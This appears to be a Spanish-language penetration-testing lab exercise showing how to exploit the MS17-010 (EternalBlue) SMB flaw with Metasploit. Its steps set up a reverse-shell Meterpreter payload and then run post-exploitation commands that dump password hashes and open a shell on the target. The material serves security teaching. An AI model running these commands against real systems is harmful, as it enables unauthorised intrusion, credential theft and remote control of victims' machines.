 # Práctica 04 - Fase de Explotación con Metasploit
## 1. Iniciar Metasploit Framework
Iniciamos Metasploit en tu terminal:
```zsh
msfconsole
```

## 2. Buscar un exploit específico
Utilizamos el comando search para localizar un exploit relevante:
```zsh
search type:exploit name:ms17_010
```

## 3. Seleccionar el exploit
Seleccionamos el exploit encontrado en el paso anterior:
```zsh
use exploit/windows/smb/ms17_010_eternalblue
```

## 4. Configurar parámetros del exploit
Configuramos la dirección IP del objetivo:
```zsh
set RHOSTS 192.168.1.10
```

## 5. Configurar el payload
Seleccionamos un payload compatible, como un shell reverso:
```zsh
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
Configuramos la dirección IP local y el puerto de escucha:
```zsh
set LHOST 192.168.1.20
set LPORT 4444
```
Nota: LHOST es la IP de nuestra máquina y LPORT el puerto que escuchará el payload.

## 6. Ejecutar el exploit
Lanzamos el ataque contra el objetivo:
```zsh
exploit
```

## 7. Post-explotación
Usamos los comandos de Meterpreter para obtener más información o control del sistema:
```zsh
sysinfo       # Obtiene información del sistema
hashdump      # Extrae hashes de contraseñas
shell         # Abre una terminal del sistema objetivo
```
